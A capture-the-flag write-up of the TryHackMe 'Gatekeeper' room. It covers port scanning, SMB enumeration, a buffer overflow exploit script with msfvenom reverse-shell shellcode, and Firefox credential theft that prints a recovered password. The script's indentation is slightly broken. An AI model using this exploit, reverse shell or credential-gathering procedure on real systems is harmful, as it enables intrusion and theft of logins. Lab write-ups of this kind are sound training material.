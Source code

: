 ```yaml
---
title: Gatekeeper-writeup-THM
date: 2024-01-03 16:00:00
categories: [room, medium]
tags: [windows, privesc, bufferoverflow]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/gatekeeper">Gatekeeper</a>"

First of all we do a nmap scan:

```bash
nmap 10.10.211.241  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 08:03 EST
Nmap scan report for 10.10.211.241
Host is up (0.058s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
49167/tcp open  unknown
```

First of all I am going to enumerate SAMBA

```bash
smbclient -L 10.10.211.241       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      

smbclient //10.10.211.241/Users
smb: \> ls
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

                7863807 blocks of size 4096. 3876514 blocks available
```

In the share directory I have found an exe file, which I am going to transfer in my windows machine.

I setted up my windows machine with Immunity Debugger+ mona.py, and I wrote a script to gain inital access.

I found the offset by writing in the prompt the output of this command:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
```

Then after the crash I wrote in the immunity prompt 

```bash
!mona findmsp -distance 700
```

The results will give you the offset.

I found out the bad chars and jump point with mona too.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

I then added some NOPs and wrote this python script:

```bash
import socket

ip = "10.10.98.109"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xdb\xd4\xbb\xde\xb4\xa5\xcc\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x58\x17\x03\x58\x17\x83\x1e\xb0\x47\x39\x62"
"\x51\x05\xc2\x9a\xa2\x6a\x4a\x7f\x93\xaa\x28\xf4\x84\x1a"
"\x3a\x58\x29\xd0\x6e\x48\xba\x94\xa6\x7f\x0b\x12\x91\x4e"
"\x8c\x0f\xe1\xd1\x0e\x52\x36\x31\x2e\x9d\x4b\x30\x77\xc0"
"\xa6\x60\x20\x8e\x15\x94\x45\xda\xa5\x1f\x15\xca\xad\xfc"
"\xee\xed\x9c\x53\x64\xb4\x3e\x52\xa9\xcc\x76\x4c\xae\xe9"
"\xc1\xe7\x04\x85\xd3\x21\x55\x66\x7f\x0c\x59\x95\x81\x49"
"\x5e\x46\xf4\xa3\x9c\xfb\x0f\x70\xde\x27\x85\x62\x78\xa3"
"\x3d\x4e\x78\x60\xdb\x05\x76\xcd\xaf\x41\x9b\xd0\x7c\xfa"
"\xa7\x59\x83\x2c\x2e\x19\xa0\xe8\x6a\xf9\xc9\xa9\xd6\xac"
"\xf6\xa9\xb8\x11\x53\xa2\x55\x45\xee\xe9\x31\xaa\xc3\x11"
"\xc2\xa4\x54\x62\xf0\x6b\xcf\xec\xb8\xe4\xc9\xeb\xbf\xde"
"\xae\x63\x3e\xe1\xce\xaa\x85\xb5\x9e\xc4\x2c\xb6\x74\x14"
"\xd0\x63\xda\x44\x7e\xdc\x9b\x34\x3e\x8c\x73\x5e\xb1\xf3"
"\x64\x61\x1b\x9c\x0f\x98\xcc\xa9\xdd\xb6\x78\xc6\xe3\xb6"
"\x91\x4a\x6d\x50\xfb\x62\x3b\xcb\x94\x1b\x66\x87\x05\xe3"
"\xbc\xe2\x06\x6f\x33\x13\xc8\x98\x3e\x07\xbd\x68\x75\x75"
"\x68\x76\xa3\x11\xf6\xe5\x28\xe1\x71\x16\xe7\xb6\xd6\xe8"
"\xfe\x52\xcb\x53\xa9\x40\x16\x05\x92\xc0\xcd\xf6\x1d\xc9"
"\x80\x43\x3a\xd9\x5c\x4b\x06\x8d\x30\x1a\xd0\x7b\xf7\xf4"
"\x92\xd5\xa1\xab\x7c\xb1\x34\x80\xbe\xc7\x38\xcd\x48\x27"
"\x88\xb8\x0c\x58\x25\x2d\x99\x21\x5b\xcd\x66\xf8\xdf\xed"
"\x84\x28\x2a\x86\x10\xb9\x97\xcb\xa2\x14\xdb\xf5\x20\x9c"
"\xa4\x01\x38\xd5\xa1\x4e\xfe\x06\xd8\xdf\x6b\x28\x4f\xdf"
"\xb9")
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
    s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```

After gaining initial access and wondering around a bit I noticed that the only possible thing to do would be getting credentials from Firefox, I used the metasploit tool `post/multi/gather/firefox_creds`

After that I ran firefox_decrypt and got the username and password:

```bash
python3 firefox_decrypt.py  firefox/loot

2024-01-03 10:00:37,134 - WARNING - profile.ini not found in firefox/loot
2024-01-03 10:00:37,134 - WARNING - Continuing and assuming 'firefox/loot' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```